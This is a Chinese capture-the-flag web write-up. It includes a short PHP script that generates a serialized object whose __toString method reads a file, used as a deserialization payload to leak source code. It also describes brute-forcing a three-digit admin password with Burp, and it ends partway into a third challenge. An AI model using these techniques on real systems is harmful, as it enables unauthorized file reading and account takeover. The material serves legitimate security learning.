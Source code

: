 	<?php
	error_reporting(E_ALL & ~E_NOTICE);
	 
	class Read{//f1a9.php
	    public $file = "f1a9.php";
	    public function __toString(){
	        if(isset($this->file)){
	            echo file_get_contents($this->file);    
	        }
	        return "__toString was called!";
	    }
	}
	$a = new Read;
	echo serialize($a);
	?>

![43.jpg](https://i.loli.net/2019/04/25/5cc1acf962c35.jpg)

最后payload

![44.jpg](https://i.loli.net/2019/04/25/5cc1ad233962e.jpg)

## web23 ##

题目主页面如下

![46.jpg](https://i.loli.net/2019/04/25/5cc1b2ac58ffb.jpg)

使用扫面器扫出如下页面

![47.jpg](https://i.loli.net/2019/04/25/5cc1b3ac65c31.jpg)

readme.txt有如下提示

![48.jpg](https://i.loli.net/2019/04/25/5cc1b3d535e60.jpg)

用户名是admin 密码是三位数字，我们可以用burp爆破

![49.jpg](https://i.loli.net/2019/04/25/5cc1b412448b6.jpg)

成功登陆后得到flag

![45.jpg](https://i.loli.net/2019/04/25/5cc1b4375909b.jpg)

## web7 ##

注册登陆后，提示权限不够

![50.jpg](https://i.loli.net/2019/04/25/5cc1b57d73424.jpg)

尝试抓包

![51.jpg](https://i.loli.net/2019/04/25/5cc1b5ccba3f9.jpg)
